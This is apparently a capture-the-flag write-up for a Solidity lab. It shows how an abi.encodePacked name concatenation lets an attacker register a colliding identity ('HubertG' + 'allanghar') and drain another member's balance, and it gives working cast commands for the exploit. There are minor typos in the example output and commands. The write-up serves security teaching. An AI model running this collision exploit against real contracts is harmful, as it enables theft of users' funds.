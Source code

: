 The Setup first will register itself as "**Hubert Gallanghar**" and deposit 20 Ether alongside that, what we need to do is to make the balance of "**Hubert Gallanghar**" become 0 to solve the lab &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Singularity.sol";

contract Setup{
    Singularity public singular;

    constructor() payable{
        singular = new Singularity();
        singular.register{value: 20 ether}("Hubert", "Gallanghar");
    }

    function isSolved() public view returns(bool){
        return singular.checkBalance("Hubert", "Gallanghar") == 0;
    }

}
```
&nbsp;  
Now let's take a look at the *Singularity.sol* to see what we can do and find the vulnerability. &nbsp;  
&nbsp;  
```solidity
mapping(bytes=>uint256) public balanceOf;
mapping(string=>mapping(string=>address)) public Member;
```
&nbsp;  &nbsp;  
we can see that it has 2 mapping for *balanceOf* that will track the balance based on the unique Id generated by *getIdentity* and *Member* that will track the address of the respective name (first name & last name). Next, let's see the functions &nbsp;  
&nbsp;  
```solidity 
function getIdentity(string memory _firstName, string memory _lastName) public pure returns(bytes memory){
    return abi.encodePacked(_firstName, _lastName);
}

function register(string memory _firstName, string memory _lastName) public payable{
    require(Member[_firstName][_lastName] == address(0), "Already Registered");
    require(msg.value > 0);
    bytes memory code = getIdentity(_firstName, _lastName);
    balanceOf[code] += msg.value;
    Member[_firstName][_lastName] = msg.sender;
}

function withdraw(string memory _firstName, string memory _lastName, uint256 _amount) public{
    require(Member[_firstName][_lastName] == msg.sender, "You cannot withraw other people money!");
    bytes memory code = getIdentity(_firstName, _lastName);
    require(balanceOf[code] - _amount >= 0, "You don't have this kind of money!");
    balanceOf[code] -= _amount;
}   

function checkBalance(string memory _firstName, string memory _lastName) public view returns(uint256){
    bytes memory code = getIdentity(_firstName, _lastName);
    return balanceOf[code];
}
```
&nbsp;  
We can see that in *getIdentity()* the unique Id generator is actually using *abi.encodePacked()*, which is not recommended due to the direct concatenation, here is an example &nbsp;  
&nbsp;  
```text
firstName = "Hubert"
lastName = "Gallanghar"

abi.encodePacked(firstName, lastName) -> "HuberGallanghar"
(hex form) 0x48756265727447616c6c616e67686172
```
&nbsp;  
the function will return just that, so let's say what if we register ourselves using the first name of "**HubertG**" and "**allanghar**"? Yep, that's correct, we will get the same concatenation of "**HubertGallanghar**", because the return value of the *getIdentity()* is also *0x48756265727447616c6c616e67686172*. Knowing this, we can just directly register using the first name and last name of "**HubertG**" and "**allanghar**" and just send 1 ether for the registration fee &nbsp;  
&nbsp;  
```bash
// registering with HubertG allanghar
cast send -r $RPC_URL --private-key $PK $SINGULARITY_ADDR "register(string, string)" "HubertG" "allanghar" --value 1ether

// make sure that the balance is now 21 Ether
cast call -r $RPC_URL $SINGULARITY_ADDR "checkBalance(string, string)" "HubertG" "allanghar"

// make a withdrawal of 21 Ether, emptying Hubert Gallanghar balance
cast send $RPC_URL --private-key $PK $SINGULARITY_ADDR "withdraw(string, string,uint256)" "HubertG" "allanghar" 21000000000000000000
```
&nbsp;  
why can't we use "**Hubert**" "**Gallanghar**", since we have the same bytes? It's because the original name was owned by the Setup contract and it checks whether the name owner is us (msg.sender) or not upon withdrawal. &nbsp;  
&nbsp;  
By Running the command above, we should've solved the lab.
